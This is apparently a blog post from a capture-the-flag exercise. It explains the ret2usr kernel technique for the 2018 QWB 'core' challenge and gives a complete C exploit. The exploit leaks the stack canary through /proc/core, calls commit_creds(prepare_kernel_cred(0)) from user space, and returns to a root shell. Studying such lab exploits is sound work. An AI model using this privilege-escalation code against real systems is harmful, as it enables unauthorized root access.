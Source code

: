 ```yaml
---
layout: post
title: "ret2usr - 强网杯2018 - core"
date: 2022-07-11
description: ""
category: 
tags: []
---
```

* TOC
{:toc}


## ret2usr

[Attachment](https://github.com/hai119/QWB2018---core)

The ret2usr attack leverages the fact that **userspace processes cannot access kernel space, but kernel space can access user space** to direct kernel code or data streams to user controls and execute user space code with the `ring 0` privilege to complete operations such as privilege escalation.

This vulnerability analysis is consistent with the [Kernel ROP](https://mudongliang.github.io/2022/07/07/%E5%BC%BA%E7%BD%91%E6%9D%AFCTF-core.html), the difference is that here we construct `commit_creds(prepare_kernel_cred(0))` in user space through the function pointer for privilege escalation. Although the function is in kernel space, at this point we are in ring0 privilege and can execute normally. 

It is worth noting that here the function pointer can be constructed based on the function prototypes of **prepare_kernel_cred()** and **commit_creds()**. Although the return value of **prepare_kernel_cred()** and the argument of **commit_creds()** is a pointer to a `cred_entry` structure, its essence is still a pointer. So the return value and argument are essentially a memory address, and neither the char pointer nor the **cred_entry** structure pointer is eight bytes.

```c
  67   │ void Getroot()
  68   │ {
  69   │     char* (*pkc)(int) = prepare_kernel_cred_addr;
  70   │     void (*cc)(char*) = commit_creds_addr;
  71   │     (*cc)((*pkc)(0));
  72   │ }
```

Then we only need to fill in the return address with the privilege escalation function address, rather than construct the ROP chain in the kernel space.

Compared to these two methods, we could conclude that ret2usr is easier than ROP.  Because it is generally much easier to construct purpose-specific code in user space than in kernel space.

```c
 102   │     for(i = 0; i < 10; i++)
 103   │     {
 104   │         rop[i] = canary;
 105   │     }
 106   │     rop[i++] = (size_t)Getroot;
 107   │     rop[i++] = swapgs;
 108   │     rop[i++] = 0;
```

exp:

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define CORE_READ 0x6677889B
#define CORE_OFF 0x6677889C
#define CORE_COPY 0x6677889A

size_t vmlinux_base,commit_creds_addr,prepare_kernel_cred_addr;
size_t user_cs,user_ss,user_sp,user_rflags;
size_t raw_vmlinux_base = 0xffffffff81000000;

void save_status()
{
	__asm__(
		"mov user_cs, cs;"
		"mov user_ss, ss;"
		"mov user_sp, rsp;"
		"pushf;"
		"pop user_rflags"
	);
}

void GetShell() {
    if (!getuid()) {
        system("/bin/sh");
    }
    else {
        puts("[-] CAN NOT GETSHELL.");
        exit(1);
    }
}

int find_symbols()
{
	char *ptr;
	char buf[0x40];
	FILE* fd = fopen("/tmp/kallsyms","r");
	if(!fd)
	{
		printf("[-] Open /tmp/kallsyms ERROR.\n");
		return 0;
	}
	while(fgets(buf,sizeof(buf),fd))
	{
		if(commit_creds_addr && prepare_kernel_cred_addr)
			return 1;
		if (strstr(buf, "commit_creds")) 
		{
            commit_creds_addr = strtoull(buf, &ptr, 16);
			printf("[+] Find: commit_creds: 0x%llx\n",commit_creds_addr);
        }
        if (strstr(buf, "prepare_kernel_cred")) 
		{
            prepare_kernel_cred_addr = strtoull(buf, &ptr, 16);
			printf("[+] Find: prepare_kernel_cred: 0x%llx\n",prepare_kernel_cred_addr);
        }
	}
	return 0;
}

void Getroot()
{
	char* (*pkc)(int) = prepare_kernel_cred_addr;
	void (*cc)(char*) = commit_creds_addr;
	(*cc)((*pkc)(0));
}

int main()
{
    save_status();
	int f=find_symbols();
	if(!f)
	{
		printf("[-]Find Symbols ERROR.\n");
		exit(0);
	}
	
	vmlinux_base = commit_creds_addr - 0x9c8e0;
	size_t offset = vmlinux_base - raw_vmlinux_base;
	size_t swapgs = 0xffffffff81a012da + offset;	//swapgs; popfq; ret;
	size_t iretq = 0xffffffff81050ac2 + offset;     //iretq; ret;
	size_t rop[0x100];
	char user_buf[0x40] = {0};
    int i;

	int fd = open("/proc/core", O_RDWR);
    if (!fd) {
        puts("[-] OPEN /proc/core ERROR.");
        exit(0);
    }
	ioctl(fd, CORE_OFF, 0x40);
    ioctl(fd, CORE_READ, user_buf);  //leak canary
	size_t canary = ((size_t *)user_buf)[0];
    printf("[+] Find canary: 0x%llx\n", canary);

    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }
	rop[i++] = (size_t)Getroot;
	rop[i++] = swapgs;
	rop[i++] = 0;
	rop[i++] = iretq;
    rop[i++] = (size_t)GetShell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
	
	write(fd, rop, sizeof(rop));
	ioctl(fd, CORE_COPY, 0xffffffffffff0000|0x100);
	return 0;
}
```

## Reference

[1] https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/rop/

[2] https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml

[3] https://blog.csdn.net/gatieme/article/details/78311841

[4] https://www.anquanke.com/post/id/258874